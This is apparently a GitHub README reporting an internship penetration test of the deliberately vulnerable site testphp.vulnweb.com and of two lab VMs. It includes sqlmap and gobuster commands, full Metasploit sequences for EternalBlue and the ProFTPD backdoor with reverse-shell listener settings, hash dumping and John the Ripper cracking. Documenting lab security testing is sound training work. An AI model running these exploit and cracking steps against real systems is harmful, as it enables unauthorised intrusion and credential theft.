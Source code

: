 # CyberSec PenTest Suite: Web & Network Vulnerability Assessment

## Overview
These projects were completed as part of my internship at **Yhill Edutech Pvt. Ltd.**. The projects focus on penetration testing, vulnerability assessment, and network scanning for both web applications and virtual machines (VMs). Below are the details and findings for each project.

---

## Project 1: Web Application Penetration Testing

### Scenario:
I conducted penetration testing on **http://testphp.vulnweb.com** to identify security vulnerabilities. This high-level technical report includes proof of concept (POC) screenshots, techniques used, and the tools/frameworks utilized.

### Target Information:
- **Website**: testphp.vulnweb.com
- **IP Address**: 44.228.249.3
- **Operating System**: Likely Linux (version 2.6.32 - 5.8)
- **Open Ports**: 80 (HTTP)

### Tools and Techniques:
1. **WhatWeb Scanning**:
   - **Command**: `whatweb http://testphp.vulnweb.com`
   - **Findings**: Outdated software (Nginx 1.19.0, PHP 5.6.40), Adobe Flash vulnerability.

2. **SQL Injection Testing**:
   - **Tool**: SQLMap
   - **Command**: `sqlmap -u "http://testphp.vulnweb.com/login.php" --forms`
   - **Findings**: SQL Injection vulnerabilities in `uname` and `pass` fields.
     - Boolean-based blind, Time-based blind, and UNION query injections.

3. **Directory Enumeration**:
   - **Tool**: Gobuster
   - **Command**: `gobuster dir -u http://testphp.vulnweb.com -w /usr/share/dirb/wordlists/common.txt`
   - **Findings**: Access to sensitive directories like `/admin`, `/cgi-bin/`, and `/secured/`.
![image](https://github.com/user-attachments/assets/7004eac6-7715-4533-9139-9656be95b39f)

4. **Web Vulnerability Scanning**:
   - **Tool**: Nikto
   - **Command**: `nikto -h http://testphp.vulnweb.com`
   - **Findings**: Missing security headers (X-Frame-Options, X-Content-Type-Options), accessible files (`/clientaccesspolicy.xml`, `/crossdomain.xml`).
![image](https://github.com/user-attachments/assets/31383c81-9aaf-446c-8733-5ed72120b5bf)

### Conclusion:
The web application is vulnerable to multiple SQL injection types in the login form. The presence of outdated software and missing security headers increases the risk of unauthorized access and data breaches.

---

## Project 2: Network Penetration Testing

### Scenario:
I conducted network penetration testing on **Windows VM** and **Ubuntu VM** to identify devices and vulnerabilities. This technical documentation includes a complete report with proof of concept (POC) screenshots, testing techniques, and a non-technical summary.

### Target Information:
- **Windows VM IP**: 172.16.130.132
- **Ubuntu VM IP**: 172.16.130.133

### Tools and Techniques:
1. **Network Reconnaissance**:
   - **Tool**: ARP-Scan
   - **Command**: `arp-scan --localnet`
   - **Findings**: Discovered target IPs for Windows and Ubuntu VMs.

2. **Nmap Scanning**:
   - **Windows VM**:
     - **Command**: `nmap -sV --script vuln -oN nmap_scan_results.txt 172.16.130.132`
     - **Findings**: Vulnerable to MS17-010 SMBv1 vulnerability (Remote Code Execution, port 445).
   - **Ubuntu VM**:
     - **Command**: `sudo nmap -sS -sV -O -T4 -A 172.16.130.133`
     - **Findings**: Vulnerability in ProFTPD (port 21).

3. **Exploitation**:
   - **Windows VM**: 
     - **Tool**: Metasploit
     - **Command**:
       ```
       msfconsole
       search ms17-010
       use exploit/windows/smb/ms17_010_eternalblue
       set RHOSTS 172.16.130.132
       set RPORT 445
       set LHOST 192.168.100.191
       set LPORT 4444
       exploit
       ```
     - **Outcome**: Successfully exploited MS17-010 SMB vulnerability, accessed the system.
      ![image](https://github.com/user-attachments/assets/b04559c0-de54-4cd2-9a2e-bebfe413ef1f)
 
   - **Ubuntu VM**: 
     - **Tool**: Metasploit
     - **Command**:
       ```
       search proFTPD 1.3.3c
       use exploit/unix/ftp/proftpd_133c_backdoor
       set RHOST 172.16.130.133
       set RPORT 21
       set LHOST 192.168.100.191
       set LPORT 4443
       exploit
       ```
     - **Outcome**: Gained root access through ProFTPD backdoor.
       ![image](https://github.com/user-attachments/assets/1f2cd47f-5335-481d-ba25-fa68b8beff12)

4. **Password Cracking**:
   - **Windows VM**:
     - **Command**:
       ```
       hashdump
       john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt
       ```
     - **Outcome**: Cracked the password: `alqfna22`.
![image](https://github.com/user-attachments/assets/5bfb2898-7169-45c8-84a0-32bb3607a4a9)

   - **Ubuntu VM**:
     - **Command**:
       ```
       unshadow passwd.txt shadow.txt > pass.txt
       john pass.txt
       ```
     - **Outcome**: Cracked the password: `marlinspike`.
       ![image](https://github.com/user-attachments/assets/dc3035a6-4cee-427b-929f-0d9cad844e9b)


### Conclusion:
Both the **Windows VM** and **Ubuntu VM** contain critical vulnerabilities that allow for remote code execution and unauthorized access. Immediate patching and updating are strongly recommended.

---

## Tools Used:
- **WhatWeb**: Web server scanning and enumeration.
- **SQLMap**: Automated SQL injection detection.
- **Gobuster**: Directory brute-forcing.
- **Nikto**: Web vulnerability scanning.
- **ARP-Scan**: Network device identification.
- **Nmap**: Vulnerability scanning and service detection.
- **Metasploit**: Exploitation framework.
- **John the Ripper**: Password cracking.

---

## Acknowledgments
These projects were part of my **cybersecurity internship** at **Yhill Edutech Pvt. Ltd.**, where I gained valuable experience in penetration testing, vulnerability assessments, and reporting.

---

### Contact Information:
For more information or to discuss the projects in detail, feel free to reach out via [LinkedIn](https://www.linkedin.com/in/neeraj-kumar-2ba511286/).

---

